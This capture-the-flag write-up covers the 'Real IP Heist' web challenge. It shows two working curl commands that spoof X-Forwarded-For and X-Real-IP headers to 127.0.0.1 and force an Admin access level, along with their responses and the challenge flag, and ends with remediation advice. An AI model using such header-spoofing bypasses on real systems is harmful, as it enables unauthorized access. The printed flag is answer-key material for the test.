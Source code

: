 ```yaml
---
title: "🔓 Safaricom PwnZone – Real IP Heist"
layout: post
collection: writeups
permalink: /writeups/safaricom-real-ip-heist/
date: 2025-10-04
categories: [Writeups]
tags: [web, headers, pwnzone]
image: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
thumbnail: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
icon: fas fa-network-wired
excerpt: "Abused trust in X-Forwarded-For / X-Real-IP headers to escalate access and retrieve the flag."
description: "Exploit of server trusting client-supplied X-Forwarded-For/X-Real-IP headers, obtaining Admin access and the flag."
---
```


![Real IP Heist Screenshot](/assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg)

# Real IP Heist — Challenge Writeup

## Challenge Overview

* **Challenge Name:** Real IP Heist
* **Difficulty:** 50 points
* **Target URL:** `http://54.72.82.22:8085`
* **Description:** "Ever wonder what your network really reveals about you. Not everything is as anonymous as it seems..."

---

## Step-by-Step Solution

### 1. Initial Reconnaissance

Visited the target URL in a browser. The page displayed a simple login form with:

* Username (free text input)
* Access Level (dropdown with only "User" available)
* Login button

![Login Form Screenshot](/assets/images/writeups/real-ip-heist/TargetIP.png)

### 2. Analyzing Client-Side Restrictions

Inspected the page source and network activity using browser developer tools. Discovered that client-side JavaScript was setting a fixed `X-Forwarded-For` header, limiting users to "User" access level regardless of input.

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/View-Page-Source.png)

![Source Code Screenshot](/assets/images/writeups/real-ip-heist/Source-code.png)

### 3. Bypassing Client-Side Restrictions

The server appeared to trust HTTP headers for IP verification. I bypassed client-side restrictions using `curl` to send custom requests with spoofed headers.

### 4. First curl Request — Gaining Admin Access

Crafted a `curl` command to:

* Send a POST request to the login endpoint
* Override the `X-Forwarded-For` header to simulate an internal IP (`127.0.0.1`)
* Set the `access_level` parameter to `Admin` directly in POST data

```bash
curl -X POST 'http://54.72.82.22:8085/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  --data 'username=attacker&access_level=Admin'
```

**Response:**

```html
<h2>Hello, attacker</h2>
<!-- real admin use internal tools -->
<p>Access level: Admin</p>
<p><a href="/admin">Go to admin panel</a></p>
```

### 5. Second curl Request — Accessing Admin Panel

The response revealed an `/admin` endpoint. Sent another request with both spoofed headers:

```bash
curl -X GET 'http://54.72.82.22:8085/admin' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  -H 'X-Real-IP: 127.0.0.1'
```

**Response:**

```html
<h3>Welcome, admin!</h3>
<p>Flag: safctf{c0f1ec1fccb2de4a03031037251f21a7}</p>
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Curl.png)

## Vulnerability Analysis

**Critical Security Flaw:** The application trusted client-supplied headers for authentication decisions.

**Specific Issues:**

* Server used `X-Forwarded-For` and `X-Real-IP` headers to verify internal/trusted IPs.
* Spoofing headers to `127.0.0.1` bypassed access controls.
* `access_level` parameter was vulnerable to direct manipulation.
* Client-side restrictions provided a false sense of security.

## Flag

```
safctf{c0f1ec1fccb2de4a03031037251f21a7}
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Flag.png)

## Key Takeaways

* Never trust client-supplied headers for security decisions.
* Client-side restrictions are easily bypassed and should not be relied upon for access control.
* Always validate authentication and authorization on the server side.
* IP-based authentication can be vulnerable to header injection attacks.
* Security through obscurity (hidden admin endpoints) is not effective protection.

## Remediation Recommendations (brief)

1. Do not rely on `X-Forwarded-For` or other client-controllable headers for trust decisions. Implement server-side checks using trusted sources (e.g., internal firewall, verified reverse proxy that strips/sets these headers).
2. Validate and enforce `access_level` server-side; do not accept privilege escalation via POST parameters.
3. Implement proper authentication/authorization controls (session tokens, role checks) that cannot be manipulated from the client.
4. Harden server by ensuring only trusted proxies can set forwarding headers and by validating the source ASN/IP ranges where appropriate.
5. Log and monitor suspicious header manipulations and failed attempts.

---

## Notes

* All testing described here was performed in the context of the CTF challenge as provided by the target URL.
* Use the documented curl commands for reproducibility and reporting.
